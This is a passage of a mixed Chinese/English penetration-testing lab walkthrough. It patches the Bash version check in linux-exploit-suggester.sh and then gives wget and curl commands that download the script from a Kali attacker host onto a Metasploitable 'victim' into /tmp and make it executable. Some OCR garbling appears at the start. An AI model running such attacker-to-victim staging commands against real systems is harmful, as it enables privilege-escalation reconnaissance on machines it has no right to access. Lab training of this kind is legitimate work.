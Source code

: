 原始代码:

> if((BASH _ versi info[0]< 4)); then

Adjusted code:

> if ((BASH_VERSINFO[0] < 1)); then

![](img/245f6f81105cf80c0a05c28792b39c37.png)

Save the adjusted script.
CTRL+O，CTRL+X

4.在 192.168.62.162 上执行(受害者机器，Metasploitable)。

使用 wget 从 Kali 机器下载脚本 linux-exploit-suggester.sh。

```
LHOST=192.168.62.161
LPORT=80
file=linux-exploit-suggester.sh
wget http://${LHOST}:${LPORT}/${file} -O /tmp/${file}; chmod 755 /tmp/${file}
```

![](img/4ccc6137fa9d4252ccffab9c83dd41e5.png)

可选:
如果 wget 在目标系统上不可用，您也可以使用 curl 或 python 来执行下载。

使用 curl 从 Kali 机器上下载脚本 linux-exploit-suggester.sh。

```
LHOST=192.168.62.161
LPORT=80
file=linux-exploit-suggester.sh
curl -s http://${LHOST}:${LPORT}/${file} -o /tmp/${file}; chmod 755 /tmp/${file}; ls -l /tmp/${file};
```

![](img/1b0e0648b19b3d51332cb55b8b1203c5.png)
